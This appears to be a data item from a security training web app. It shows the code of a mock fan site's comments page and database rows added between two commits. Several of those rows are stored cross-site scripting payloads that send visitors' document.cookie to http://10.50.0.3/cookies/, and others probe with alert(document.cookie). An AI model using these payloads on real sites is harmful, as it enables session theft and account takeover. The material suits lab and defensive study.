
The page /comments on the database as committed earlier.

The same page on the database as committed later.
### tables this page shows
CREATE TABLE comments (
    `id` INTEGER PRIMARY KEY AUTOINCREMENT,
    `username` TEXT NOT NULL,
	`text` TEXT NOT NULL
);

### app.py (the view, shortened to what this page needs)
@app.route('/comments', methods=['GET', 'POST'])
def comments():
    comments_query = text("SELECT username, text FROM comments")
    comments = db.session.execute(comments_query).fetchall()
    return render_template('comments.html', comments=comments)

### templates/comments.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
    <h2>Leave a comment for our great leader!</h2>
    <form method="POST" action="{{ url_for('comments') }}" style="max-width: 600px; margin: 20px auto; padding: 20px; border: 1px solid #ccc; border-radius: 10px; background-color: #f9f9f9;">
        <div style="margin-bottom: 15px;">
            <label for="username" style="display: block; font-weight: bold; margin-bottom: 5px;">Name:</label>
            <input type="text" id="username" name="username" required style="width: 100%; padding: 10px; border: 1px solid #ccc; border-radius: 5px;">
        </div>
        <div style="margin-bottom: 15px;">
            <label for="comment" style="display: block; font-weight: bold; margin-bottom: 5px;">Comment:</label>
            <textarea id="comment" name="comment" required style="width: 100%; padding: 10px; border: 1px solid #ccc; border-radius: 5px; height: 100px;"></textarea>
        </div>
        <div style="text-align: center;">
            <button type="submit" style="padding: 10px 20px; background-color: #007bff; color: white; border: none; border-radius: 5px; cursor: pointer;">Submit</button>
        </div>
    </form>
    <h3>All Comments</h3>
    <ul>
        {% for comment in comments %}
            <li><strong>{{ comment.username }}</strong>: {{ comment.text }}</li>
        {% endfor %}
    </ul>
{% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
    <link rel="stylesheet" href="{{ url_for('static', filename='style.css') }}">
</head>
<body>
    <div id="container">
        <header>
            <div id="mainpic">
            </div>
        </header>
        <nav id="menu">
            <ul>
                <li><a href="{{ url_for('index') }}">Home</a></li>
                <li><a href="{{ url_for('quotes') }}">Quotes</a></li>
				<li><a href="{{ url_for('search') }}">Search</a></li>
				<li><a href="{{ url_for('comments') }}">Comments</a></li>
				<li>
					{% if 'user_id' in session %}
						<a href="{{ url_for('logout') }}">Logout</a>
					{% else %}
						<a href="{{ url_for('login') }}">Login</a>
					{% endif %}
				</li>
				<li><a href="{{ url_for('sitemap') }}">Site Map</a></li>
            </ul>
        </nav>
        <main id="content">
            {% block content %}{% endblock %}
        </main>
        <footer id="footer">
            <h3><a href="#">Copyright &copy; Donald. All Rights Reserved.</a></h3>
        </footer>
    </div>
</body>
</html>

### static/style.css (style rules this page uses)
body { margin: 0; padding: 0; text-align: left; font: 12px Arial, Helvetica, sans-serif; font-size: 13px; color: #061C37; background-image:url(images/background.jpg); background-repeat:no-repeat; }
* { margin: 0 auto 0 auto; text-align:left; }
#container { display: block; height:auto; position: relative; width: 940px; }
#mainpic { background-image:url(images/trump_flicker_face_yess.jpg); background-repeat:no-repeat; width:900px; height:402px; }
#menu { background-image:url(images/menu.png); background-repeat:no-repeat; width:940px; height:69px; float:left; clear:both; }
#content { width:920px; height:auto; background-color:#FFF; padding-left:10px; padding-right:10px; padding-bottom:5px; }
#content h2 { text-align:center; }
#footer h3 a,#footer h3 a:visited { text-align:center; font-size:12px; text-decoration:none; color:#7198E1; }
#menu ul { list-style: none; padding: 0px; margin-left:auto; width:900px; }
#menu li { list-style: none; padding: 0px; display: inline; }
#menu a { float: left; width: 120px; height: 40px; display: block; text-align: center; text-decoration: none; color: #ffffff; font-weight: bold; padding-top: 10px; font-size: 15px; }
html, body { text-align: center; }

Rows that differ between the two databases and show on the page:
added comments: username "hacker", text "lol <script> var i = document.createElement(\"img\"); i.src = \"http://10.50.0.3/cookies/\" + document.cookie; </script>"
added comments: username "das", text "HEllo <script> var i = document.createElement(\"img\"); i.src = \"http://10.50.0.3/cookies/\" + document.cookie; </script>"
added comments: username "da", text "<script> var i = document.createElement(\"img\"); i.src = \"http://10.50.0.3/cookies/\" + document.cookie; </script>"
added comments: username "da", text "da"
added comments: username "das", text "Hey <script> var i = document.createElement(\"img\"); i.src = \"http://10.50.0.3/cookies/\" + document.cookie; </script>"
added comments: username "d", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "d", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "d", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "d", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "12", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "fa", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "asd", text "adsNice coffee <script> alert(document.cookie) </script>"
added comments: username "sad", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "da", text "Nice coffee <script> alert(document.cookie) </script>"
added comments: username "1", text "Nice coffee <script> alert(document.cookie) </script>"
